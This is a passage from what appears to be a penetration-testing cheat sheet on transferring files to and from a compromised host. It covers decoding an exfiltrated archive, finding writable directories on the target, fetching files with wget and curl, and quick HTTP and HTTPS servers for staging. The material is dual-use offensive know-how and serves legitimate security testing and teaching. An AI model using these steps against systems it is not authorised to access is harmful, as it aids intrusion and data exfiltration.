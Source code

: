 Transfer _exfil.tgz.b64_ to the remote system and decode:

```
openssl base64 -d < exfil.tgz.b64 | tar xfz -
```
{% endtab %}
{% endtabs %}

## HTTP/HTTPS

One of the easier ways to transfer a file as most devices have web access. Start by finding a directory on the target that you can write to.

```
# find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```

```
# wget http://<url> -O url.txt -o /dev/null
```

Curl has the benefit of being able to transfer with IMAP, POP3, SCP, SFTP, SMB, SMTP, TELNET, TFTP< and other protocols. Experimentation may be needed to figure out what is blocked/allowed by the firewall.

```
# curl -o file.txt http://url.com
```

### Scripted HTTP Servers

```
python2 -m SimpleHTTPServer $port
python3 -m http.server $port
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:8888
```

[SimpleHTTPServerWithUpload](https://gist.github.com/UniIsland/3346170)

```
# from https://gist.github.com/dergachev/7028596
# taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
# generate server.xml with the following command:
#    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# run as follows:
#    python simple-https-server.py
# then in your browser, visit:
#    https://localhost:443

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```
